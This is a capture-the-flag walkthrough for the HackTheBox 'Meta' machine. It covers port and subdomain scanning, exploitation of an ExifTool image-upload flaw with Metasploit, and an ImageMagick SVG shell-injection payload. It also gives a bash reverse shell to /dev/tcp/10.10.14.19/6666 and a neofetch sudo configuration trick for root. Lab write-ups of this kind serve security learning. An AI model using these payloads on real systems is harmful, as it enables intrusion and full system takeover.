

# HackTheBox Meta Walkthrough

Start off with rustscan.

rustscan --range 1-65535 -a 10.10.11.140 -- -A -T4 -Pn -sC -sV
Open 10.10.11.140:22
Open 10.10.11.140:80

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 12:81:17:5a:5a:c9:c6:00:db:f0:ed:93:64:fd:1e:08 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCiNHVBq9XNN5eXFkQosElagVm6qkXg6Iryueb1zAywZIA4b0dX+5xR5FpAxvYPxmthXA0E7/wunblfjPekyeKg+lvb+rEiyUJH25W/In13zRfJ6Su/kgxw9whZ1YUlzFTWDjUjQBij7QSMktOcQLi7zgrkG3cxGcS39SrEM8tvxcuSzMwzhFqVKFP/AM0jAxJ5HQVrkXkpGR07rgLyd+cNQKOGnFpAukUJnjdfv9PsV+LQs9p+a0jID+5B9y5fP4w9PvYZUkRGHcKCefYk/2UUVn0HesLNNrfo6iUxu+eeM9EGUtqQZ8nXI54nHOvzbc4aFbxADCfew/UJzQT7rovB
|   256 b5:e5:59:53:00:18:96:a6:f8:42:d8:c7:fb:13:20:49 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEDINAHjreE4lgZywOGusB8uOKvVDmVkgznoDmUI7Rrnlmpy6DnOUhov0HfQVG6U6B4AxCGaGkKTbS0tFE8hYis=
|   256 05:e9:df:71:b5:9f:25:03:6b:d0:46:8d:05:45:44:20 (ED25519)
|\_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINdX83J9TLR63TPxQSvi3CuobX8uyKodvj26kl9jWUSq
80/tcp open  http    syn-ack Apache httpd
| http-methods: 
|\_  Supported Methods: GET HEAD POST OPTIONS
|\_http-server-header: Apache
|\_http-title: Did not follow redirect to http://artcorp.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux\_kernel

In the http\_tile we have :\_http-title: Did not follow redirect to http://artcorp.htb.

Edit /etc/hosts.

Visit the HTTP link.

wfuzz -c -f sub-fighter -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u 'http://artcorp.htb' -H "Host: FUZZ.artcorp.htb" --hc 301

Again, edit /etc/hosts to add the new subdomain.

It looks like some sort of exif tool is being used to process the file.

With a bit of googling, I found CVE-2021-22204 and a well-written case study. [https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/](https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/)

I used metasploit to create the .jpg.

And multi/handler to listen for a meterpreter shell.

We don't have permission to read user.txt. But thomas can.

I couldn't find anything running linpeas so I tried pspy.

UID=1000 is thomas running convert\_images.sh on a schedule.

Lets check what's inside the file.

mogrify is an imagick commands. Lets check the version and see what we can do.

mogrify -version

Turns out the version is vulnerable to a shell injection attack.

Here is a nice blog post [https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html)

We need to create a .svg file and upload it to /var/www/dev01.artcorp.htb/convert\_images/

<image authenticate='ff" \`echo $(id)> ./0wned\`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>

We need to edit the authenticate field, I couldn't get it to work until I converted the command to base64. I think it has to do with character escaping.

`echo 'bash  -i >& /dev/tcp/10.10.14.19/6666 0>&1 ' | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTkvNjY2NiAwPiYxIAo=`

Start a NC listener and upload the file. Make sure to name the file poc.svg (or change the href)

And we've got a user foothold!

Run sudo -l to see what else we can find.

We can run neofetch as sudo but we cannot add any options.

We can try GTFObins [https://gtfobins.github.io/gtfobins/neofetch/](https://gtfobins.github.io/gtfobins/neofetch/)

TF=$(mktemp)
echo 'exec /bin/sh' >$TF
sudo neofetch --config $TF

Running the code doesn't work. We'll need to add it to the .config files of neofetch.

A quick google search and we can find the .config location. [https://github.com/dylanaraps/neofetch](https://github.com/dylanaraps/neofetch)

That's it. All we needed to do is add exec /bin/sh to the config file and then just the XDG\_CONFIG\_HOME value.

We're root!
